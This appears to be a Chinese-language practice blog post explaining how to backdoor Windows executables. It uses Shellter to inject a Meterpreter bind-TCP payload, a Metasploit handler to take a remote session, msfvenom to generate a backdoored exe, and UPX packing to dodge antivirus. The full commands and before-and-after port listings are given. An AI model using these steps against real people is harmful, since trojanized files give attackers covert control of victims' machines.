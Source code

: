 ```yaml
---
title: 简单的 PE 后门
date: 2019-07-19 22:57:45
tags:
  - Kali
  - 实践记录
categories:
  - 安全工具
featuredImage: 0.jpg
---
```


记录一下最简单的挂后门和免杀方法，不怎么接触这块。

<!--more-->

主要介绍两个工具：Shellter 和 Upx，后者 Kali 自带。Shellter 的安装略有点复杂，因为需要 wine32 的支持。使用的 Kali 是 64 位的。

首先 `apt install shellter` 应该不会有什么问题，但是启动的时候会提示缺少 wine32，因此执行：

```shell
$ dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

这一步会花费很长时间，因为 wine 本身很庞大。装完后应该就可以正常使用了。

## 通过 Shellter 篡改 exe 文件

随意取一个 exe 文件作为我们要加入后门的可执行文件。首先启动 shellter，会看到：
![图 1](0.jpg)

输入 `A` 选择自动模式，随后输入 exe 文件所在路径，程序便会自动运行，分析原文件并插入恶意代码。这个过程大约持续不到一分钟。

输入 `Y` 开启隐蔽模式，随后选择使用它列出的七种 payload 还是自定义，这里我们输入 `L` 选择列出的 payload。

带 `Meterpreter` 前缀的是指可以通过 MSF 获取会话的 payload，方式有正向 `Bind` 与反向 `Reverse` 两种。`Bind` 顾名思义，就是用户打开 exe 后，将会在用户主机上开放一个端口，攻击者去连接那个端口就可以获取会话。`Reverse` 则是反过来，使用户主机连接攻击者开放的端口来获取会话。而带 `Shell` 前缀的 payload 可以直接反弹 shell 给攻击者。

攻击者还可以通过不同的协议来获取会话，比如任意 TCP 协议，HTTP/HTTPS 协议等。这里以选择 4 号 payload `Meterpreter_Bind_TCP` 为例。

最后要求设置 `LPORT` 也就是要在目标主机上打开的端口，只要是没有被占用的端口都可以，比如这里可以设置 `60000` 端口。

完成以后，新的 exe 文件就是已经被植入后门的 exe 文件，相比于原文件，它占空间多了一点，其它地方似乎看不出什么区别。

## 通过 Meterpreter 获取会话

假设目标主机（Windows）获得了新的 exe 文件。在双击打开前，我们查看用 `netstat -an` 查看其已经开放的端口：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

然后我们双击打开，发现和原来的 exe 完全没有区别。再次查看端口情况可以发现，`60000` 端口悄悄开启了：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:60000          0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

接下来我们看看攻击者要怎么操作来获取会话。

首先要确保攻击者和目标主机在同一网段。打开 `msfconsole`。依次输入：

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lport 60000
set rhost 192.168.159.128
exploit
```

其中 `rhost` 需要改为目标主机的内网 IP。

这样以后，就可以获取会话，并执行任意命令了（会话的作用不局限于执行 shell 命令）：
![图 2](1.jpg)

需要注意的是，一旦用户关闭 exe 文件，会话也将随之关闭。因此实际场景中常常配合持久化提权工具使用。

## 使用 msfvenom 直接生成带后门的 PE 文件

上面的例子需要修改一个已有的 exe 文件，这里我们可以直接生成这样的带后门的文件：

```shell
$ msfvenom -p windows/meterpreter/bind_tcp lport=60001 -f exe > test.exe
```

端口号依然可以是任意未被占用的端口。msfvenom 也提供了许多选项实现免杀，这里不一一介绍了。

## 使用 Upx 给程序加壳

这样做的作用主要有两个：压缩文件大小和免杀。然而 Upx 加壳毕竟是最最简单的免杀方法，现在的绝大多数杀毒软件都能轻易脱壳。举个例子，给刚才生成的 exe 文件加壳，只需要：

```shell
$ upx -9 test.exe
```

`-1` 参数压缩得最快，`-9` 参数压缩质量最高。

## 后记

这篇文章叙述的方法是最初级的植入后门的方法，略过了很多有一定难度的细节，详情参见 Shellter/Upx/msfvenom 的文档。
